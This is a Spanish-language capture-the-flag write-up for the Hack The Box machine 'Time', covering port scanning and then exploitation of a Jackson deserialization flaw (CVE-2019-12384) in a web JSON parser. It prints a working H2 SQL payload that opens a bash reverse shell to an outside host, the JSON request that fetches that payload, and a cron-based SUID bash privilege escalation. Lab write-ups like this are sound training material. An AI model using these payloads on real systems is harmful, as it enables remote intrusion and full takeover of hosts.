 ```yaml
---
title: "Time - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/time/data/time.png"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - RCE (Remote Code Execution)
  - Json
---
```



<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/data/TimeHTB.png">
</p>

La máquina **Time** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 3.5, **5710 USER OWNS** y **5369 SYSTEM OWNS** con la ip **10.10.10.214** y un sistema operativo **Linux**.


### Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/scanPort.png">
</p>


Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/Ports.png">
</p>


Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
  - -sV: Detección de versiones en servicios alojados en puertos.
  - -p : Puertos a inspeccionar.
  - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/PortServ.png">
</p>


Lo que nmap nos ha mostrado sobre los servicios es que tiene un servicio ssh y una página http que está soportada por apache 2.4.41 que tiene un **Online Json parser** corriendo. Aparte de estos datos no vemos nada fuera de lo normal o que indique un foco a seguir que no sea la página con el Json.

Si entramos en la página web desde el navegador podemos ver la aplicación **Json** que está montada en la web:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/pageWeb.png">
</p>

Una vez que hemos identificado una posible ruta para nuestra auditoría, empezamos a jugar con la aplicación y vemos que tiene dos opciones **'beautify'** y **'validate (beta)'** si introducimos datos en la segunda podemos ver que nos muestra el siguiente error:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/errorPage.png">
</p>


Investigando el error y si tiene alguna forma de abusar de él ya sea para hacer algún tipo de **RCE** u otro potencial camino a seguir y haciendo una buena búsqueda en internet sobre este error encontré un documento en **[github](https://github.com/jas502n/CVE-2019-12384)** que habla de cómo hacer una ejecución de comandos en el  aplicativo aprovechando una vulnerabilidad existente en la misma. Siguiendo los pasos mencionados en la página que los cuales eran crear un archivo **inject.sql** que debe tener el siguiente contenido:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.15.125/443 0>&1')
```

Una vez creado el archivo me puse en escucha por el puerto **443** y levanté un servidor HTTP en el puerto 8000 una vez hecho esto envié la siguiente consulta a través de la aplicación web:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.15.125:8000/inject.sql'"}]
```
La consulta anterior lo que hace es decirle al aplicativo que ejecute el script de la url **http://10.10.15.125:8000/inject.sql** la cual es mi servicio http que levante en mi maquina y el cual tiene el script en sql el cual ejecuta una revershell a mi maquina por el puerto 443.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/intrusion/payload.png?raw=true">
</p>

La respuesta que me dio fue un get al archivo **Inject.sql** en el lado del servidor que inicié y desde el puerto que abrí interpretó el comando dándome un shell:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/intrusion/acces.png?raw=true">
</p>

## Movimiento Lateral

Haciendo un pequeño reconocimiento en el sistema podemos ver que hay una tarea cron que se ejecutan a intervalos de tiempo regulares en este caso cada **7 segundos** el cual es **'timer\_backup.timer'**:

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/intrusion/cron.png?raw=true">
</p>

Una vez que sabemos que existe un CronJob procedemos a buscar el archivo para ver si es una ruta a seguir para conseguir la escalada de privilegios, utilizando el comando ```$ systemctl list-timers ``` podemos encontrar la ubicación de este archivo y concatenando un ls -la podemos ver que el archivo nos pertenece por lo que podemos editarlo sin problemas

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/intrusion/cronjob.png?raw=true">
</p>

## Escalacion de privilegios

Para la escalada de privilegios lo que hice fue ir al archivo y dentro del archivo modifiqué el contenido que tenía por el siguiente:

```bash

#!/bin/bash
chmod 4755 /bin/bash

```

Una vez que modificamos el archivo **timer\_backup** esperamos a que la tarea cron se ejecute y root asigne el permiso **SUID** a la ruta **/bin/bash** lo cual nos permitira utilizar el parámetro ``` bash -p ``` que nos dará una shell como root ya que estamos ejecutando temporalmente el binario como el propiertario del mismo y asi teniendo acceso completo a la máquina y completado el rooteo de la misma.

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/intrusion/root.png?raw=true">
</p>

<p align="center">
<img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/intrusion/root2.png?raw=true">
</p>
